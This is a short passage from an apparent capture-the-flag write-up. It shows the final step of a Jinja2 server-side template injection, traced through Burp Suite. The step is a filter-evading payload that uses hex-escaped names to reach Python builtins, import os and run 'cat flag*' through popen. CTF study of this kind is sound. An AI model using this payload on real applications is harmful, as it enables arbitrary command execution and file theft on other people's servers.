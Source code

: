 [![Dir Contents](/assets/1337UPCTF/1truth2.png)](/assets/1337UPCTF/1truth2.png)
<figcaption align=center><b>Figure 3.2: Directory Contents Listed in Burp Suite</b></figcaption>
&nbsp;

Next, we just need to read the flag file and the challenge should be complete.

>\{\{request\|attr('application')\|attr('\x5f\x5fglobals\x5f\x5f')\|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')\|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')\|attr('popen')('cat%20flag*')\|attr('read')()\}\}

[![Flag](/assets/1337UPCTF/1truth3.png)](/assets/1337UPCTF/1truth3.png)
<figcaption align=center><b>Figure 3.3: Results of the Final Injection in Burp Suite</b></figcaption>
&nbsp;

